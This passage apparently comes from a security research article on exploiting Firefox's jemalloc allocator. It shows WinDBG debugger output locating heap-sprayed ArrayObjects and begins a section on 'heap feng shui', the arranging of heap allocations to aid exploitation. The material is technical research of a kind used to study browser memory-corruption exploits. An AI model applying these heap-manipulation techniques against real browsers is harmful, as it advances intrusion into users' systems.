 At this point let's use the shadow utility from within WinDBG to search the
jemalloc heap for the content we have sprayed (edited for readability):

    0:000> !py c:\\tmp\\pykd_driver jesearch -s 256 -c 45464645

    [shadow] searching all current runs of size class 256 for 45464645
    
    [shadow] found 45464645 at 0x141ad110
                    (run 0x141ad000, region 0x141ad100, region size 0256)
    
    [shadow] found 45464645 at 0x141ad120
                    (run 0x141ad000, region 0x141ad100, region size 0256)
    
    [shadow] found 45464645 at 0x141ad130
                    (run 0x141ad000, region 0x141ad100, region size 0256)

    0:000> dd 141ad100 l?80

    [ Metadata of a sprayed ArrayObject ]
              flags    initlen  capacity length
    141ad100  00000000 0000001e 0000001e 0000001e

    [ Contents of the same sprayed ArrayObject ]
    141ad110  45464645 ffffff81 47484847 ffffff81
    141ad120  45464645 ffffff81 47484847 ffffff81
    ...
    141ad1e0  45464645 ffffff81 47484847 ffffff81
    141ad1f0  45464645 ffffff81 47484847 ffffff81

    [ Metadata of another sprayed ArrayObject]
              flags    initlen  capacity length
    141ad200  00000000 0000001e 0000001e 0000001e

    [ and its data ]
    141ad210  45464645 ffffff81 47484847 ffffff81
    141ad220  45464645 ffffff81 47484847 ffffff81

    0:000> !py c:\\tmp\\pykd_driver jeinfo 141ad200
    [shadow] address 0x141ad200
    ...
    [shadow] run 0x141ad000 is the current run of bin 0x00600608

    [shadow] address 0x141ad200 belongs
                    to region 0x141ad200 (size class 0256)

We can see above that the ArrayObject elements of the container ArrayObject
are indeed on the jemalloc heap and specifically on regions of size 256.
Also, they are contiguous to each other.

----[ 5.2 - jemalloc feng shui

Heap feng shui refers to the manipulation of a heap with the goal of
carefully arranging it (with selected objects) towards aiding exploitation
[FSJ]. Armed with the knowledge of the previous sections, we can now:

1) Move our ArrayObjects off the nursery and onto the jemalloc heap along
with their metadata.

2) Poke holes in the jemalloc runs, and trigger a garbage collection to
actually make these holes reclaimable by subsequent allocations.
